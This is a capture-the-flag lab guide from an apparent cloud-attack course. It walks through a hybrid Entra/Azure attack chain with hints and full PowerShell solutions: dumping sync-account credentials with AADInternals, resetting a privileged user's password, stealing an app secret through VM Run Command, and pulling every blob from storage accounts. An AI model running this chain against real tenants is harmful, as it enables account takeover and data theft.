

# LAB 4 : Capture the Flag (CTF) Challenge

## Preparations
* **DO NOT** look at the scripts content / output

1. RDP login to DC VM using the YOURDOMAIN\\**rootuser**, then run the following script as admin (**when asked, login using the ENTRA CREDS (!) - you will be asked twice**)
    ```powershell
    # when asked, login using the ENTRA ADMIN CREDS (!) - you will be asked twice
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1" -DomainName #"mydomain.onmicrosoft.com"
    ```
    - if failed it's probably due to timeout: rerun again and enter the creds faster

2. RDP login to Win11 VM, then put there what you've created in the script above in the correct place..

## Instructions: Start Here
1. Your goal is to find the `secret.txt` file 
2. forget everything you knew: from this point on you DON'T know what the Entra admin password is (i.e. what's the password of ``user1`` / ``rootuser`` / ``admin``..), and what the VMs passwords are
3. **DO NOT** password reset ``user1``
3. **Starting point:** as the attacker the only thing you have is the RDP session on the DC VM. Good luck! 

Do not use hints unless you really have to..

## Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on any VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>


    1. Pass reset: DC vm -> reset pass of "user2" (or your given user in the class) using Entra Sync account credentials

    2. Login to Azure as that user using your browser

    3. Azure Portal Run Command on Win11 VM 

    4. Steal the app secret on that VM by running powershell script from the Run Command extension on the Azure portal 

    5. Use the secret to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>


## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / azure permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>


<details>
<summary><b>Solution</b></summary>
on the DC VM:

```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$at = Get-AADIntAccessTokenForAADGraph
$tenant = Get-AADIntSyncConfiguration -AccessToken $at # get the tenant ID

Connect-AzureAD -AadAccessToken $at -tenantId $tenant.tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize

```

Enumerate Applications:
```powershell
# Retrieve all applications
$applications = Get-MgApplication -All

# Retrieve all service principals (needed for permission lookup)
$servicePrincipals = Get-MgServicePrincipal -All

# Iterate over each application
foreach ($app in $applications) {
    $appName = $app.DisplayName
    $appId = $app.AppId
    $appObjectId = $app.Id

    # Retrieve permissions (RequiredResourceAccess contains GUIDs of permissions)
    $permissions = @()
    foreach ($resourceAccess in $app.RequiredResourceAccess) {
        $sp = $servicePrincipals | Where-Object { $_.AppId -eq $resourceAccess.ResourceAppId }
        if ($sp) {
            foreach ($perm in $resourceAccess.ResourceAccess) {
                $role = $sp.AppRoles | Where-Object { $_.Id -eq $perm.Id }
                $permName = if ($role) { $role.DisplayName } else { "Unknown Permission ($($perm.Id))" }
                $permissions += [PSCustomObject]@{
                    ResourceName = $sp.DisplayName
                    Permission   = $permName
                    Type         = $perm.Type
                }
            }
        }
    }

    # Output application information
    Write-Host "Application: $appName"
    Write-Host "  App ID: $appId"
    Write-Host "  Object ID: $appObjectId"
    Write-Host "  Required Permissions:"
    $permissions | Format-Table -AutoSize

    # Retrieve associated service principal
    $sp = $servicePrincipals | Where-Object { $_.AppId -eq $appId }
    if ($sp) {
        $spName = $sp.DisplayName
        $spObjectId = $sp.Id
        Write-Host "  Service Principal: $spName"
        Write-Host "    Object ID: $spObjectId"

        # Get assigned roles for the service principal
        $assignedRoles = Get-MgServicePrincipalAppRoleAssignment -ServicePrincipalId $spObjectId
        if ($assignedRoles) {
            $roleDetails = @()
            foreach ($role in $assignedRoles) {
                $resourceSP = $servicePrincipals | Where-Object { $_.Id -eq $role.ResourceId }
                if ($resourceSP) {
                    $roleName = $resourceSP.AppRoles | Where-Object { $_.Id -eq $role.AppRoleId }
                    $roleDisplayName = if ($roleName) { $roleName.DisplayName } else { "Unknown Role ($($role.AppRoleId))" }
                    $roleDetails += [PSCustomObject]@{
                        AssignedTo    = $resourceSP.DisplayName
                        RoleName      = $roleDisplayName
                    }
                }
            }

            Write-Host "    Assigned Roles:"
            $roleDetails | Format-Table -AutoSize
        } else {
            Write-Host "    No assigned roles."
        }
    } else {
        Write-Host "  No associated service principal found."
    }

    Write-Host "--------------------------------------"
}
```

We see some interesting app and service principal, however we don't have any permissions to them..
</details>

## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Let's target `user2` (or your target user given as in class), as he holds a privileged role and we do have permissions to set its password.. 
</details>


Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS"  -AccessToken $at -Verbose 
```
</details>


## Step 3

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    user1 is logged into that Win 11 vm, and he's a part of the company's IT, he's the guy responsible for backing up cloud data of the company.
    He does that by running stuff from the C:\ folder...
</details>

<details>
    <summary><b>Hint 4</b></summary>

    Use the Run Command extension to get a secret that lies on this machine on the C:\ folder..
</details>

<details>
<summary><b>Solution</b></summary>

user1 created an app with a scret to make these backups, let's use that for our advantage..

1. Login to portal.azure.com as the target user you compromised
2. Run the following command on the Win11 VM from the Run Command Window in the Azure portal:
3. `type c:\backup_app_secret.txt`
</details>

## Step 3
<details>
    <summary><b>Hint 1</b></summary>
    
    Using the acquired file content, what can you do?
    You may use your own PC / DC VM, you got everything you needed from this VM.
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
    Authenticate as that SPN and see what it has access to..

```powershell
$appSecret = "SECRET_FROM_VM"
$tenantId = "YOUR_TENANT_ID"
$spId = "SPN_OBJECT_ID"

$SecureClientSecret = ConvertTo-SecureString $appSecret -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($appId, $SecureClientSecret)
Connect-AzAccount -ServicePrincipal -Credential $Credential -tenantId $tenantId
```
</details>

<details>
    <summary><b>Hint 3</b></summary>
    
```powershell
# List SPN's Azure Role Assignment using Azure PowerShell
$roleAssignments = Get-AzRoleAssignment -ObjectId $spId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
</details>

<details>
    <summary><b>Hint 4</b></summary>
    
    We can see that there's a storage account that this SPN has access to..
</details>


<details>
    <summary><b>Solution</b></summary>
    
```powershell
Get-MgApplication -All # select the correct app.appId (NOT app.Id), run this command as the user you've compromised
$appId = "APP_ID" # get it from command above
$appSecret = "SECRET_FROM_VM"
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView$spId = "SPN_OBJECT_ID"

$SecureClientSecret = ConvertTo-SecureString $appSecret -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($appId, $SecureClientSecret)
Connect-AzAccount -ServicePrincipal -Credential $Credential -tenantId $tenantId

```
We can see that there's a storage account that this user has access to..
```powershell
# Get all storage accounts
$storageAccounts = Get-AzStorageAccount

foreach ($storageAccount in $storageAccounts) {
    Write-Output "Storage Account: $($storageAccount.StorageAccountName)"

    # Get the context for the storage account
    $context = $storageAccount.Context

    # List all containers in the storage account
    $containers = Get-AzStorageContainer -Context $context

    foreach ($container in $containers) {
        Write-Output "  Container: $($container.Name)"

        # List all blobs in the container
        $blobs = Get-AzStorageBlob -Container $container.Name -Context $context

        foreach ($blob in $blobs) {
            Write-Output "    Blob: $($blob.Name)"

            # Download the blob content to a temporary location
            $tempFilePath = Join-Path -Path $env:TEMP -ChildPath $blob.Name
            Get-AzStorageBlobContent -Blob $blob.Name -Container $container.Name -Context $context -Destination $tempFilePath -Force

            # Print the content of the blob
            $blobContent = Get-Content -Path $tempFilePath
            Write-Output "      Content: $blobContent"
        }
    }
}
```

### The content of "secret.txt" in storage account is your medal, mazal tov hacker cracker!

#### Bonus: 
Go back to the beginning, and try steal your target user identity using silver ticket (Seamless SSO) instead of password reset
</details>


## Don't forget
Once done, delete the lab resource groups to clean up the resources + the App Registration and its Enterprise App